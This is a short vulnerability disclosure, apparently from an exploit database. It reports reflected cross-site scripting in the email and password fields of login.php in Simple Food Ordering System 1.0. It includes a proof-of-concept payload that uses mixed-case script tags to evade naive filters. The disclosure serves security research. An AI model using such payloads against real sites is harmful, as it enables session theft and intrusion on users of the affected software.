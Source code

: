 # Simple Food Ordering System-XSS

### Date: 

> ### 2022-08/05



### Exploit Author:

> ### anx0ing@gmail.com



### Vendor Homepage: 

> [https://www.sourcecodester.com](https://www.sourcecodester.com/)



### Software Link: 

> https://www.sourcecodester.com/php/15418/simple-food-ordering-system-client-side-phpmysqli-free-source-code.html



### Version: 

> ### 1.0



### /login.php

`email`、`password`Parameters have Cross Site Scripting(XSS)

> POC

```
"><ScRiPt>alert(1)</sCrIpT>
```

![image-20220805231408483](https://cdn.jsdelivr.net/gh/beytagh001/blog-img/image-20220805231408483.png)
